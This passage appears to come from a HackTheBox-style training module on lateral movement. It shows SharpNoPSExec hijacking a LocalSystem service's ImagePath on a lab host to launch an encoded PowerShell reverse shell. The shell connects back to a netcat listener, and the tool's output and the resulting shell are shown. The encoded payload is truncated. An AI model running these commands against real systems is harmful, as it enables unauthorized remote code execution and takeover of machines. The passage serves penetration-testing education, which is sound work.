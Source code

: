 ```powershell-session
Note: If the selected service has a non-system account this will be ignored.

--help          - Print help information.
```

To perform lateral movement with `SharpNoPSExec`, we will need a listener as this tool will only allow us to execute code on the machine, but it won't give us an interactive shell as `PsExec` does. We can start listening with `Netcat`:


```shell-session
BusySec@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

`SharpNoPSExec` uses the credentials of the console we are executing the command from, so we need to make sure to launch it from a console that has the correct credentials. Alternatively, we can use the arguments `--username`, `--password` and `--domain`. Additionally, we have to provide the target IP address or the domain name `--target=<IP/Domain>`, and the command we want to execute. For the command, we can use the payload shown in the help menu to set our reverse shell `--payload="c:\windows\system32\cmd.exe /c <reverseShell>`. We can generate the reverse shell payload using [https://www.revshells.com](https://www.revshells.com/) or our favorite C2:

```powershell-session
PS C:\Tools> .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

[>] Open SC Manager from 172.20.0.52.

[>] Getting services information from 172.20.0.52.

[>] Looking for a random service to execute our payload.
    |-> Querying service NetTcpPortSharing
    |-> Querying service UevAgentService
    |-> Service UevAgentService authenticated as LocalSystem.

[>] Setting up payload.
    |-> payload = c:\windows\system32\cmd.exe /c ...SNIP...AbwBzAGUAKAApAA==
    |-> ImagePath previous value = C:\Windows\system32\AgentService.exe.
    |-> Modifying ImagePath value with payload.

[>] Starting service User Experience Virtualization Service with new ImagePath.

[>] Waiting 5 seconds to finish.

[>] Restoring service configuration.
    |-> User Experience Virtualization Service Log On => LocalSystem.
    |-> User Experience Virtualization Service status => 4.
    |-> User Experience Virtualization Service ImagePath => C:\Windows\system32\AgentService.exe
```

Looking at the attack box, we can see the reverse shell connection successfully being established:

```shell-session
BusySec@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 49866

PS C:\Windows\system32>
```
